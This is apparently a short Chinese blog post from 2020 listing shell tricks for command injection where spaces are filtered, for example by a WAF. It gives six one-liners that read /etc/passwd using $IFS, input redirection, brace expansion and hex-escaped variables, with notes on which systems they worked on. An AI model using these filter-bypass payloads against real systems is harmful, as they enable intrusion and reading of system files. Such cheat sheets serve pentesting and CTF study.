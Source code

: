 # 命令执行绕过空格的姿势

[2020-03-27](/2020/03/27/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%BB%95%E8%BF%87%E7%A9%BA%E6%A0%BC%E7%9A%84%E5%A7%BF%E5%8A%BF/)

在一些漏洞利用场景（如命令执行，SQL注入），或者因为waf等原因，导致无法使用空格时，可以试试如下命令：  

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line"></span><br><span class="line">IFS=,;`cat&lt;&lt;&lt;cat,/etc/passwd`</span><br><span class="line">cat$IFS/etc/passwd</span><br><span class="line">cat${IFS}/etc/passwd</span><br><span class="line">cat&lt;/etc/passwd</span><br><span class="line">{cat,/etc/passwd}</span><br><span class="line">X=$'cat\x20/etc/passwd'&amp;&amp;$X</span><br></pre></td></tr></tbody></table>

经过测试，除最后一条在mac osx下执行失败，这些命令在ubuntu 19.10和centos7下均执行成功。在mac osx系统下系统会将cat\\x20/etc/passwd当成一个可执行文件，会提示No such file or directory。
